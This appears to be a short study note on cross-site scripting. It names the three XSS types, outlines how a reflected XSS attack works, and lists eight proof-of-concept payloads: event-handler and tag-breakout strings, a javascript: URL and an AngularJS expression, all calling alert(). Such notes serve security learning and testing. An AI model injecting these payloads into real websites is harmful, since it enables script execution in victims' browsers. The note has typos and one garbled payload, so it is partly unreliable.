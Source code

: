 # Type
1. Relfected XSS
2. Store XSS
3. DOM XSS

- Reflected XSS:
    - Tatics: make attacker's JS code run on victims browser
    - Technique: Create payload and combine it to url of vuln website, send that URL to victim
    - Procedures: use burpsuite, inspect tool, ... to test payload, add payload to URL

# Payload

1. `<img src=1 onerror=alert()>`
2. `" onfocus="alert()`
3. `onload="this.src+=<img src=1 onerror=alert()>`
4. Anything put inside href use this payload `javascript:alert()`
5. `'-alert(1)-'`
6. or `'; alert();'`
7. break out an select tag: `</select><img src=1 onerror=alert()>`
8. `{{$on.constructor('alert(1)')()}}` $on is event handler function in AngularJS
